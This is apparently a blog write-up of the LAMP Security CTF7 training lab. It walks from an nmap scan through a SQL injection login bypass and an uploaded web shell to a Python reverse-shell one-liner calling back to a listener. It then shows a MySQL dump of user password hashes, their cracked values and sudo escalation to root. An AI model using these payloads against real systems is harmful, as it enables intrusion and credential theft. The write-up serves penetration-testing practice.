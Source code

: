 ```yaml
---
layout: post
title:	"Lamp Security CTF7 Writeup"
date:	2017-01-06 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello everyone. [LAMP Security CTF7](http://www.vulnhub.com/entry/lampsecurity-ctf7,86/) was created by [Mad Irish](http://hello%20everyone.%20lamp%20security%20ctf7%20is%20an%20easy%20and%20funny%20ctf%20created%20by%20mad%20irish/). You can find it on [Vulnub](https://www.vulnhub.com/) or on [root-me](https://www.root-me.org/).

Ok let’s start to enumerate the services:

~~~
syrion@backbox:~$ nmap -sT -sV -p 1-65535 ctf07.root-me.org

PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
Device type: general purpose|storage-misc|broadband router|media device|WAP
~~~

I ran dirsearch and in the meanwhile I seen the web site on port 80:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img1.png)

On port 8080 there was this login:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img2.png)

The login was vulneable to SQL Injection. I logged in with ‘ or 1=1 — -. There was a kind of CMS:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img3.png)

I uploaded a shell by creating a new reading:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img4.png)

Before that, Dirsearch showed me the directory with all the uploaded files:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img5.png)

Ok the shell worked:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img6.png)

I used this python payload to open a reverse shell:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call
(["/bin/sh","-i"]);'
~~~

And it worked:

~~~
syrion@backbox:~$ nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [212.83.142.84] port 4444 [tcp/*] accepted (family 2, sport 57758)
sh: no job control in this shell
sh-4.1$ python -c “import pty;pty.spawn(‘/bin/bash’);”
python -c “import pty;pty.spawn(‘/bin/bash’);”
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
~~~

After some local enumerations, I found the credentials of mysql in a php page, so I accessed to mysql and I found some interesting credentials:

~~~
bash-4.1$ mysql -u root
mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 26
Server version: 5.1.66 Source distribution
Copyright (c) 2000, 2012, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type ‘help;’ or ‘\h’ for help. Type ‘\c’ to clear the current input statement.

mysql> show databases;
show databases;
+——————–+
| Database           |
+——————–+
| information_schema |
| mysql              |
| roundcube          |
| website            |
+——————–+
4 rows in set (0.00 sec)

mysql> use website;
use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+——————-+
| Tables_in_website |
+——————-+
| contact           |
| documents         |
| hits              |
| log               |
| newsletter        |
| payment           |
| trainings         |
| trainings_x_users |
| users             |
+——————-+
9 rows in set (0.00 sec)

mysql> select username,password from users;
select username,password from users;
+——————————-+———————————-+
| username                      | password                         |
+——————————-+———————————-+
| brian@localhost.localdomain   | e22f07b17f98e0d9d364584ced0e3c18 |
| john@localhost.localdomain    | 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain   | 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain    | 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain    | 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain   | ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain | 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain   | 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain    | 4773408d5358875b3764db552a29ca61 |
| charles@localhost.localdomain | b2a97bcecbd9336b98d59d9324dae5cf |
| foo@bar.com                   | 4cb9c8a8048fd02294477fcb1a41191a |
| test@nowhere.com              | 098f6bcd4621d373cade4e832627b4f6 |
+——————————-+———————————-+
12 rows in set (0.00 sec)
~~~

I used Crackstation to crack all the hashes:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-01-06-lamp-security-ctf7-writeup/img7.png)

At this point I tried to become the user brian:

~~~
bash-4.1$ su brian
su brian
Password: my2cents
[brian@localhost inc]$ id
id
uid=501(brian) gid=501(brian) groups=501(brian),10(wheel),500(webdev),512(admin) context=system_u:system_r:httpd_t:s0
~~~

The user Brian was a sudo user, and I become root:

~~~
[brian@localhost inc]$ sudo su
sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

#1) Respect the privacy of others.
#2) Think before you type.
#3) With great power comes great responsibility.

[sudo] password for brian: my2cents

[root@localhost inc]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost inc]# cat /passwd
cat /passwd
688986705024f447914a24e0dd903b39
~~~

Bye!

